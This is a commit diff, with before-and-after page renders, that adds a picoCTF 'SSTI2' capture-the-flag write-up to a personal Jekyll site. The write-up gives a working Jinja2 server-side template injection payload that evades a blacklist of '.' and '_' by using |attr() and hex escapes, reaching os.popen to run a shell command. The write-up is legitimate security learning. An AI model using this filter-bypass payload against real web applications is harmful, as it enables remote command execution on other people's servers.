

Before and after one commit to ghx312/ghx312.github.io, a Jekyll site: the page built from _pages/writeups/picoctf/web/medium/ssti2.md, in a window 1280 px wide. Shown: the top 1770 px of the page at 72% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
SSTI2 Writeup Complete

```diff
--- a/_pages/writeups/picoctf/web/medium/ssti2.md
+++ b/_pages/writeups/picoctf/web/medium/ssti2.md
@@ -29,4 +29,18 @@
 In one of the hints, it said that they used blacklisting characters to sanitize inputs, so I decided to play around and see which characters are not allowed.
 I tried a few other payloads like {% raw %} `{{7 * 7}}` {% endraw %} which did not output anything interesting that indicated blacklisting, but here are some of the payloads that gave me information about the blacklisted characters.
 
-{% raw %} {% endraw %}
+{% raw %} `{{ config.items }}` {% endraw %}  -> Confirmed that the fullstop was blacklisted
+So I went online and found a way to use the fullstop without having to type it out by using |attr() as an alternative.
+{% raw %} `{{ cycler|attr('__init__') }}` {% endraw %}  -> Confirmed that the underscore was blacklisted
+I decided the encode the underscore in hex before sending it out, that way the underscore would not be blacklisted but still parsed as an underscore when ran as code.
+
+Final Payload: {% raw %} `{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('cat flag')|attr('read')()}}` {% endraw %}
+I simply replaced the fullstops and the underscores in the final payload for SSTI1 and it worked as it bypassed the filter and gave me the flag
+
+#### Flag
+![Here lies a picture](/assets/img/picoCTF/ssti2/ssti2_flag.png)
+
+#### Summary
+Blacklisted Symbols: ".", "_"
+Functions/Methods used to bypass the filter: |attr(), `__getitem__`, \x5f
+Replace the previous SSTI1 payload's fullstops with |attr("\x5f\x5fgetitem\x5f\x5f") and replace all underscores in the function with \x5f
```
